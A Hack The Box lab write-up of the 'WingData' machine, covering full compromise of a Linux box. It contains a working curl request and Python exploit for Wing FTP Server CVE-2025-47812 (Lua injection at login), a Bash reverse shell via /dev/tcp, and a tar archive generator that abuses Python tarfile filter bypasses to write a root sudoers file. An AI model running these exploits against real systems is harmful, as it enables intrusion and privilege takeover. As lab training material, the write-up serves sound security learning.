# Hack The Box — WingData Write-up

> **Platform:** Hack The Box  
> **Machine:** WingData  
> **Difficulty:** Easy  
> **OS:** Linux  
> **Author:** WackyH4cker  
> **Target IP:** `10.129.30.67`  
> **Status:** User and root compromised in a controlled HTB lab environment

---

## Disclaimer

This write-up documents a controlled penetration testing exercise inside Hack The Box. The techniques shown here are intended for learning, lab practice, and authorized security testing only. Do not use these methods against systems you do not own or do not have permission to test.

---

## Executive Summary

WingData exposed an HTTP service running **Wing FTP Server v7.4.3** on the `ftp.wingdata.htb` subdomain. Research showed that this version was vulnerable to **CVE-2025-47812**, a remote code execution vulnerability caused by improper NULL byte handling in the username parameter during login.

After validating anonymous access and confirming command execution, a reverse shell was obtained as the `wingftp` service user. Local enumeration revealed Wing FTP user configuration files containing password hashes. The `wacky` account was identified as the only Linux user under `/home`, and its Wing FTP password hash was cracked. The recovered password was reused to authenticate over SSH as `wacky`, leading to the user flag.

Privilege escalation was achieved through a `sudo` misconfiguration allowing `wacky` to execute a Python restore script as root. The script used Python's `tarfile.extractall()` with `filter="data"`, which looked safe at first, but was relevant to the newer Python `tarfile` filter bypass class of vulnerabilities, especially **CVE-2025-4138 / CVE-2025-4517**. By creating a crafted tar archive, it was possible to write a sudoers file as root and obtain a root shell.

---

## Attack Chain

```text
Recon
  -> Discover HTTP and SSH
  -> Add virtual hosts
  -> Discover ftp.wingdata.htb
  -> Identify Wing FTP Server v7.4.3
  -> Validate CVE-2025-47812 RCE
  -> Obtain reverse shell as wingftp
  -> Enumerate Wing FTP configuration
  -> Crack wacky hash
  -> SSH as wacky
  -> Abuse sudo-allowed Python restore script
  -> Exploit Python tarfile filter bypass behavior
  -> Write sudoers file
  -> Root shell
```

---

## Machine Overview



---

## 1. Reconnaissance

The first step was to identify exposed services using `nmap`.

```bash
sudo nmap -sCV 10.129.30.67
```

The scan showed two important services:

```text
22/tcp open  ssh   OpenSSH 9.2p1 Debian
80/tcp open  http  Apache httpd 2.4.66
```



The HTTP service redirected to `wingdata.htb`, so the following entries were added to `/etc/hosts`:

```bash
sudo nano /etc/hosts
```

```text
10.129.30.67 wingdata.htb ftp.wingdata.htb
```



---

## 2. Web Enumeration

Browsing to `http://wingdata.htb` showed the main WingData Solutions website.



The public website did not reveal much from the page source or browser DevTools. However, the **Client Portal** button led to a separate subdomain:

```text
http://ftp.wingdata.htb
```



The subdomain displayed a Wing FTP web client login page. The footer disclosed the exact product and version:

```text
Wing FTP Server v7.4.3
```



---

## 3. Vulnerability Research — CVE-2025-47812

Research showed that Wing FTP Server v7.4.3 was affected by **CVE-2025-47812**, a critical RCE vulnerability involving NULL byte handling in the `username` parameter of `/loginok.html`.

In simple terms, the application validates only the username portion before the NULL byte, but later stores or processes the full value. This allows an attacker to smuggle Lua code into the session data and trigger command execution when the session is later processed.



### Why this vulnerability mattered

The target matched the vulnerable product and version:

```text
Product: Wing FTP Server
Version: 7.4.3
Endpoint: /loginok.html
Impact: Remote Code Execution
```

The vulnerability was especially useful because anonymous login was enabled.

---

## 4. RCE Validation

The first validation step was to test anonymous login:

```text
Username: anonymous
Password: <blank>
```



After confirming anonymous login, a harmless command execution test was performed using `id`.

```bash
rm -f cookies.txt

curl -s -i -c cookies.txt -b cookies.txt \
  -X POST "http://ftp.wingdata.htb/loginok.html" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data 'username=anonymous%00]]%0dlocal+h+%3d+io.popen("id")%0dlocal+r+%3d+h%3aread("*a")%0dh%3aclose()%0dprint(r)%0d--&password='

curl -s -b cookies.txt "http://ftp.wingdata.htb/dir.html"
```

The response contained the output of the `id` command, confirming RCE.



---

## 5. Proof of Concept Script

To make the testing repeatable, a small Python script was used to send a command and trigger the session execution.

```python
#!/usr/bin/env python3
import requests
import sys
import urllib.parse

if len(sys.argv) < 3:
    print(f"Usage: {sys.argv[0]} http://ftp.wingdata.htb 'id'")
    sys.exit(1)

base_url = sys.argv[1].rstrip("/")
cmd = sys.argv[2]

session = requests.Session()

lua_payload = (
    'anonymous%00]]%0d'
    'local h = io.popen("' + cmd.replace('"', '\\"') + '")%0d'
    'local r = h:read("*a")%0d'
    'h:close()%0d'
    'print(r)%0d'
    '--'
)

data = f"username={urllib.parse.quote_from_bytes(urllib.parse.unquote_to_bytes(lua_payload), safe='%')}&password="
headers = {"Content-Type": "application/x-www-form-urlencoded"}

print("[*] Sending malicious login request...")
session.post(f"{base_url}/loginok.html", data=data, headers=headers, timeout=10)

print("[*] Triggering session execution...")
r = session.get(f"{base_url}/dir.html", timeout=10)
print(r.text)
```

Example usage:

```bash
python3 wingftp_rce.py http://ftp.wingdata.htb "id"
```





---

## 6. Initial Access

A reverse shell was started by preparing a listener on the attacking machine:

```bash
nc -lvnp 4444
```

Then the PoC script was used to execute a Bash reverse shell payload:

```bash
python3 wingftp_rce.py http://ftp.wingdata.htb \
  "bash -c 'bash -i >& /dev/tcp/10.10.14.XX/4444 0>&1'"
```



After receiving a shell, it was upgraded for better interactivity:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then press `CTRL + Z`, and run locally:

```bash
stty raw -echo; fg
```

Back in the target shell:

```bash
export TERM=xterm
stty rows 40 columns 120
```



At this stage, the shell was running as the `wingftp` user.

---

## 7. Local Enumeration as `wingftp`

Basic enumeration was performed first:

```bash
id
whoami
hostname
pwd
ls -la
uname -a
ip a
```

The Wing FTP installation directory was found under:

```text
/opt/wftpserver
```



Sensitive files were searched using keyword matching:

```bash
grep -RniE "password|pass|pwd|hash|admin|administrator" Data 2>/dev/null
```

This revealed multiple Wing FTP user configuration files containing password hashes:

```text
Data/1/users/maria.xml
Data/1/users/steve.xml
Data/1/users/wacky.xml
Data/1/users/john.xml
Data/_ADMINISTRATOR/admins.xml
```



The most interesting user was `wacky`, because `/home` contained only one non-root user directory:

```bash
ls -la /home
```

```text
drwxrwx--- 2 wacky wacky 4096 ... wacky
```

This suggested that the Wing FTP user `wacky` might map to a real Linux user.



---

## 8. Hash Cracking

The relevant credential entry for `wacky` was found in the Wing FTP user XML file:

```xml
<UserName>wacky</UserName>
<EnablePassword>1</EnablePassword>
<Password>32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca</Password>
```

The domain settings also showed password salting was enabled:

```xml
<EnablePasswordSalting>1</EnablePasswordSalting>
```

The hash was prepared for cracking and tested with Hashcat using a salted SHA-256 style mode.

```bash
hashcat -m 1410 wacky_password.txt /usr/share/wordlists/rockyou.txt
```



The cracked password was then reused for SSH access.

---

## 9. Lateral Movement to `wacky`

Because SSH was open and `wacky` existed as a Linux user, the cracked password was tested against SSH:

```bash
ssh wacky@10.129.30.67
```



After logging in as `wacky`, the user flag was accessible in the home directory.

```bash
whoami
id
cat ~/user.txt
```

> The actual flag value is intentionally omitted from this public portfolio version.



---

## 10. Privilege Escalation Enumeration

The next step was to inspect sudo privileges:

```bash
sudo -l
```

The output showed that `wacky` could run a Python restore script as root without a password:

```text
(root) NOPASSWD: /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py *
```

This was the key privilege escalation path.



The script was reviewed:

```bash
cat /opt/backup_clients/restore_backup_clients.py
```

Important section:

```python
with tarfile.open(backup_path, "r") as tar:
    tar.extractall(path=staging_dir, filter="data")
```



---

## 11. Root Cause of Privilege Escalation

The script performs the following actions as root:

1. Accepts a backup filename matching `backup_<number>.tar`.
2. Opens the tar archive from `/opt/backup_clients/backups`.
3. Extracts it into `/opt/backup_clients/restored_backups/<restore_name>`.
4. Uses Python `tarfile.extractall()` with `filter="data"`.

At first glance, `filter="data"` appears safe because it was introduced to reduce classic tar path traversal risks such as `../../etc/passwd`. However, newer Python tarfile vulnerabilities such as **CVE-2025-4138** and **CVE-2025-4517** describe bypass scenarios where crafted symlinks or hardlinks can still cause writes outside the intended extraction directory.

This made the scenario exploitable because the vulnerable extraction happened with root privileges.

The important combination was:

```text
sudo NOPASSWD
+ attacker-controlled tar archive
+ Python tarfile.extractall()
+ filter="data"
+ root-owned extraction process
= arbitrary file write as root
```





---

## 12. Root Exploitation

A crafted tar archive was generated to write a sudoers rule for the `wacky` user:

```text
/etc/sudoers.d/wacky
```

The target payload was:

```text
wacky ALL=(ALL) NOPASSWD: ALL
```

A simplified version of the generator logic:

```python
#!/usr/bin/env python3
import argparse
import io
import os
import sys
import tarfile

IS_DARWIN = sys.platform == "darwin"
DIR_COMP_LEN = 55 if IS_DARWIN else 247
CHAIN_STEPS = "abcdefghijklmnop"
LONG_LINK_LEN = 254

def generate(output_path, target_user):
    payload = f"{target_user} ALL=(ALL) NOPASSWD: ALL\n".encode()
    comp = "d" * DIR_COMP_LEN

    with tarfile.open(output_path, "w") as tar:
        inner_path = ""

        for step_char in CHAIN_STEPS:
            d_path = os.path.join(inner_path, comp)
            d = tarfile.TarInfo(name=d_path)
            d.type = tarfile.DIRTYPE
            d.mode = 0o755
            tar.addfile(d)

            s_path = os.path.join(inner_path, step_char)
            s = tarfile.TarInfo(name=s_path)
            s.type = tarfile.SYMTYPE
            s.linkname = comp
            tar.addfile(s)

            inner_path = d_path

        short_chain = "/".join(CHAIN_STEPS)
        pivot_name = os.path.join(short_chain, "l" * LONG_LINK_LEN)

        pivot = tarfile.TarInfo(name=pivot_name)
        pivot.type = tarfile.SYMTYPE
        pivot.linkname = "../" * len(CHAIN_STEPS)
        tar.addfile(pivot)

        escape_target = pivot_name + "/" + ("../" * 8) + "etc"

        esc = tarfile.TarInfo(name="escape")
        esc.type = tarfile.SYMTYPE
        esc.linkname = escape_target
        tar.addfile(esc)

        sudoers_dir = tarfile.TarInfo(name="escape/sudoers.d")
        sudoers_dir.type = tarfile.DIRTYPE
        sudoers_dir.mode = 0o755
        tar.addfile(sudoers_dir)

        final_path = f"escape/sudoers.d/{target_user}"
        p = tarfile.TarInfo(name=final_path)
        p.type = tarfile.REGTYPE
        p.mode = 0o440
        p.size = len(payload)
        tar.addfile(p, io.BytesIO(payload))

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("-o", "--output", required=True)
    parser.add_argument("-u", "--user", default="wacky")
    args = parser.parse_args()
    generate(args.output, args.user)
```

The tar file had to match the script's expected naming format:

```text
backup_<number>.tar
```

Example:

```bash
python3 make_tar_poc.py -o /opt/backup_clients/backups/backup_1337.tar -u wacky
```

Then the allowed sudo command was executed:

```bash
sudo /usr/local/bin/python3 /opt/backup_clients/restore_backup_clients.py \
  -b backup_1337.tar \
  -r restore_poc
```



After the sudoers file was written, `wacky` could start a root shell:

```bash
sudo /bin/bash
whoami
id
cat /root/root.txt
```



> The actual root flag value is intentionally omitted from this public portfolio version.

---

## 13. Impact

Successful exploitation resulted in full system compromise:

| Stage | Impact |
|---|---|
| CVE-2025-47812 | Remote code execution as the Wing FTP service user |
| Credential harvesting | Discovery of local Wing FTP user password hashes |
| Password cracking | Recovery of credentials for the Linux user `wacky` |
| SSH lateral movement | Stable shell as `wacky` |
| Sudo tarfile abuse | Arbitrary root-level file write |
| Final privilege escalation | Root shell and root flag access |

---

## 14. Remediation Notes

For a real environment, the following mitigations would be recommended:

1. **Upgrade Wing FTP Server** to a fixed version newer than 7.4.3.
2. **Disable anonymous login** unless strictly required.
3. **Do not expose administrative or file-transfer portals directly** without strong access control.
4. **Avoid storing reusable credentials or weak password hashes** in application configuration files.
5. **Do not allow low-privileged users to run archive extraction scripts as root** unless the input is strongly validated.
6. **Do not extract untrusted archives as root.** Use a sandboxed user, temporary directory, and strict path validation.
7. **Patch Python** to a version that includes fixes for the 2025 `tarfile` filter bypass vulnerabilities.
8. **Limit sudo rules** to exact commands without attacker-controlled wildcards whenever possible.

---

## 15. Lessons Learned

This machine demonstrated how several moderate-looking issues can chain into full compromise:

- Version disclosure helped identify a public RCE.
- Anonymous access made exploitation easier.
- Service configuration files exposed password hashes.
- Credential reuse allowed SSH access.
- A single unsafe sudo rule turned a local user into root.
- Security controls like `filter="data"` can still be dangerous when applied to untrusted input under privileged execution.

---

## References

- RCE Security — CVE-2025-47812 Wing FTP Server RCE: https://www.rcesecurity.com/advisories/cve-2025-47812/
- NVD — CVE-2025-47812: https://nvd.nist.gov/vuln/detail/CVE-2025-47812
- Python `tarfile` Documentation: https://docs.python.org/3/library/tarfile.html
- CVE — CVE-2025-4138: https://www.cve.org/CVERecord?id=CVE-2025-4138
- Ubuntu Security — CVE-2025-4517: https://ubuntu.com/security/CVE-2025-4517

---

## Final Result

```text
User: compromised
Root: compromised
```

